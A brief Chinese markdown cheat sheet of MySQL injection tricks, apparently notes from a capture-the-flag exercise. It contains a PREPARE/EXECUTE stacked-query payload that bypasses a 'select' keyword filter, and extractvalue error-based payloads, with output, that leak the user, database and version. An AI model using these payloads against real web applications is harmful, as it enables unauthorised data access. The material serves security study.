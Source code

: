 ```yaml
---
title: "SQL Injection Tricks"
author: ["4shen0ne"]
draft: false
---
```


## select 关键字过滤绕过 {#select-关键字过滤绕过}

预编译绕过关键字(select)过滤：

```text
1';Set @sql = CONCAT('se','lect * from `1919810931114514`;');Prepare stmt from @sql;EXECUTE stmt;#
```


## mysql 报错注入 {#mysql-报错注入}

1.  orderby 猜列数

2.  extractvalue

<!--listend-->

```nil
1' and (extractvalue(1,concat(0x7e,user(),0x7e)));#
error 1105 : XPATH syntax error: '~root@localhost~'
1' and (extractvalue(1,concat(0x7e,database(),0x7e)));#
error 1105 : XPATH syntax error: '~supersqli~'
1' and (extractvalue(1,concat(0x7e,version(),0x7e)));#
error 1105 : XPATH syntax error: '~10.3.15-MariaDB~'
```
